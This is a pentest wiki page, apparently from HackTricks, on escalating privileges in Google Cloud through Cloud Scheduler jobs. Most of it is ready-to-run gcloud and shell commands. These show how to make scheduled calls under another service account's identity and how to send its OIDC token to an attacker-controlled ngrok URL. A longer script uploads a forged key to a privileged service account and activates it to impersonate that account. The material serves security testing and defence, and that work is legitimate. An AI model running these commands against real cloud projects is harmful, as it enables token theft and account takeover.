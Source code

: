 # GCP - Cloud Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Scheduler

More information in:

{{#ref}}
../gcp-services/gcp-cloud-scheduler-enum.md
{{#endref}}

### `cloudscheduler.jobs.create` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

An attacker with these permissions could exploit **Cloud Scheduler** to **authenticate cron jobs as a specific Service Account**. By crafting an HTTP POST request, the attacker schedules actions, like creating a Storage bucket, to execute under the Service Account's identity. This method leverages the **Scheduler's ability to target `*.googleapis.com` endpoints and authenticate requests**, allowing the attacker to manipulate Google API endpoints directly using a simple `gcloud` command.

- **Contact any google API via`googleapis.com` with OAuth token header**

Create a new Storage bucket:

```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```

To escalate privileges, an **attacker merely crafts an HTTP request targeting the desired API, impersonating the specified Service Account**

- **Exfiltrate OIDC service account token**

```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```

If you need to check the HTTP response you might just t**ake a look at the logs of the execution**.

### `cloudscheduler.jobs.update` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Like in the previous scenario it's possible to **update an already created scheduler** to steal the token or perform actions. For example:

```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```

Another example to upload a private key to a SA and impersonate it:

```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
    -keyout /tmp/private_key.pem \
    -out /tmp/public_key.pem \
    -subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
  --schedule='* * * * *' \
  --uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
  --message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
  --update-headers "Content-Type=application/json" \
  --location us-central1 \
  --oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
  "type": "service_account",
  "project_id": "$PROJECT_ID",
  "private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
  "private_key": $private_key_json,
  "client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
  "client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}





